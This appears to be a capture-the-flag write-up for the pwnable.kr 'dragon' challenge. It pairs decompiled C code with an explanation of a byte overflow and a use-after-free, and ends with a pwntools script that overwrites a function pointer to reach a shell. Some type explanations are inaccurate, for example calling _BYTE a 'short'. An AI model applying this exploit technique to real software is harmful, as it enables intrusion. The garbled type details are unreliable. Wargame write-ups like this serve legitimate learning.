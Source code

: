 ```c
          printf("But The Dragon Deals %d Damage To You!\n", *((_DWORD *)ptr + 3));
          *(_DWORD *)(a1 + 4) -= *((_DWORD *)ptr + 3);
          printf("And The Dragon Heals %d HP!\n", *((char *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
        }
        break;
    }
    if ( *(_DWORD *)(a1 + 4) <= 0 )
    {
      free(ptr);
      return 0;
    }
  }
  while ( *((_BYTE *)ptr + 8) > 0 );
  free(ptr);
  return 1;
}
```

Here:
```c
printf("And The Dragon Heals %d HP!\n", *((char *)ptr + 9));
*((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
```

Notice `_BYTE `, which is equal to `short`. It has size 0x100 (`-128`~`+127`. However, when the number inside is exactly `128`. It will overflow and becomes zero. If we can keep the mama dragon healing, we can cause the overflow. The Priest's invincibility allows us to achieve that. 

When we killed the dragon, the program will free a chunk in size 0x10 which stores dragon information chunk. However, we can control the chunk when we input our name (it also applies a chunk with 0x10 size to store). The program subsequently call the function in dragon info chunk. We can overwrite it to arbitrary address:
```python
from pwn import *

p = remote("pwnable.kr", 9004)

def choose(choice):
	p.recvuntil("Hero")
	p.sendline(str(choice))

def attack(choice):
	p.recvuntil("[")
	p.sendline(str(choice))

p.recvuntil("!")
choose(2)
attack(2)

choose(1)
opt = [3, 3, 2, 3, 3, 2, 3, 3, 2, 3, 3, 2]

for i in opt:
	attack(i)

p.recvuntil(":")
payload = p32(0x08048dbf)
p.sendline(payload)
p.interactive()
```
